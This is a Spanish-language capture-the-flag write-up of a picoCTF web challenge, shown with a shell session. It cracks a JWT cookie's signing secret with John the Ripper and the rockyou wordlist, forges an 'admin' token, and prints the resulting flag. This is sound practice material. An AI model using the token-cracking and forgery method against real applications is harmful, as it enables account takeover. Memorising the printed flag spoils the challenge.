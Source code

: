 ## Description

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/58210/` or http://jupiter.challenges.picoctf.org:58210
#### hints
- What is that cookie?
- Have you heard of JWT?
## Solución

Entramos a la página:
![[Pasted image 20240923113258.png]]

y nos registramos con cualquier nombre. Después vamos al editor de cookies y nos traemos el valor de la cookie:
![[Pasted image 20240923113425.png]]

Posteriormente esa clave la pegamos en: [jwt](https://jwt.io/introduction)
![[Pasted image 20240923113620.png]]

Luego en kali procedemos a:
```shell
┌──(kali㉿kali)-[~]
└─$ nano hola      
                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ cat hola      
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2FybG9zIn0.ibA8ZjnNXLYfuOIQWln6-CmmzUhw-bsu3BivkwnNYDk
                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ cd /usr/share/wordlists
                                                                                                                             
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ sudo gzip -d rockyou.txt.gz              
[sudo] password for kali: 
                                                                                                                             
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ ls
amass  dirbuster   fasttrack.txt  john.lst  metasploit  rockyou.txt  wfuzz
dirb   dnsmap.txt  fern-wifi      legion    nmap.lst    sqlmap.txt   wifite.txt
                                                                                                                             
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ head rockyou.txt        
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
                                                                                                                             
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ wc -l rockyou.txt 
14344392 rockyou.txt
                                                                                                                             
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ cd                     
                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ cat ho  
cat: ho: No such file or directory
                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ cat hola
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2FybG9zIn0.ibA8ZjnNXLYfuOIQWln6-CmmzUhw-bsu3BivkwnNYDk
                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ john hola -w=/usr/share/wordlists/rockyou.txt 
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:02 DONE (2024-09-23 13:29) 0.3412g/s 2524Kp/s 2524Kc/s 2524KC/s iloverob4live345..ilovepatri
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                             
┌──(kali㉿kali)-[~]
└─$ 


```

Y la palabra `"ilovepico"` que encontró la herramienta de ``john`` la ponemos en _Verify Signature_ y cambiamos el valos del _user_ a ``admin``. 
![[Pasted image 20240923113956.png]]

Copiamos la parte de la izquierda y la ponemos en el valor de la cookie :
![[Pasted image 20240923114042.png]]

Guardamos y recargamos la página:
![[Pasted image 20240923114101.png]]
## Bandera
```css
flag: picoCTF{jawt_was_just_what_you_thought_44c752f5}
```
## Notas Adicionales

# comandos utilizados

## Referencias
- [jwt](https://jwt.io/introduction)